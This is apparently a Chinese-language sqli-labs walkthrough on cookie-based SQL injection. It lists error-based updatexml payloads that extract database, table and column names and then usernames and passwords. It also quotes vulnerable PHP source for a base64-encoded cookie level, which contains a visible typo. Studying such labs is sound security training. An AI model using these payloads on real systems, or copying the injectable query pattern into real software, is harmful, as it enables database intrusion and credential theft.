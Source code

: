 
因此，只需要在http请求头中，对cookie字段进行uname参数的进行报错注入即可。

```sql
// 都是不需要闭合的'' ，
// 爆破库名
Cookie: 'uname=' and updatexml(1,concat(0x7e,database(),0x7e),1)#
// 爆破表名
Cookie: 'uname=' and updatexml(1,concat(0x7e,substr( (select group_concat(table_name) from information_schema.tables where table_schema=database()),1,30 ),0x7e),1)#
// 爆破表列名
Cookie: 'uname=' and updatexml(1,concat(0x7e,substr( (select group_concat(column_name) from information_schema.columns where table_name='users'),1,30 ),0x7e),1)#
// 爆破users表数据
Cookie: 'uname=' and updatexml(1,concat(0x7e,substr( (select group_concat(username) from security.users),1,30 ),0x7e),1)#
Cookie: 'uname=' and updatexml(1,concat(0x7e,substr( (select group_concat(password) from security.users),1,30 ),0x7e),1)#
```



#### 2. 进阶注入



##### 21. Cookie injection - base64 encoded - single quotes and parenthesis

```php
if(!isset($_COOKIE['uname'])){
  		$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
			$result1 = mysql_query($sql);
			$row1 = mysql_fetch_array($result1);
			if($row1) {
        setcookie('uname', base64_encode($row1['username']), time()+3600);	
      } else {}
} esle {
  	if(!isset($_POST['submit']))
		{
      $cookee = base64_decode($cookee);
			$sql="SELECT * FROM users WHERE username=('$cookee') LIMIT 0,1";
			$result=mysql_query($sql);
			if (!$result)
  				{
  				die('Issue with your mysql: ' . mysql_error());
  				}
			$row = mysql_fetch_array($result);
			if($row) {} else {}
    }
}
```

看源码，会对查询到的数据库信息进行`base64_encode`，然后再插入cookie字段中。而取出来的cookie，也是需要先经过`base_decode`，因此注入到cookie的代码，需要先进过`base64_encode`。
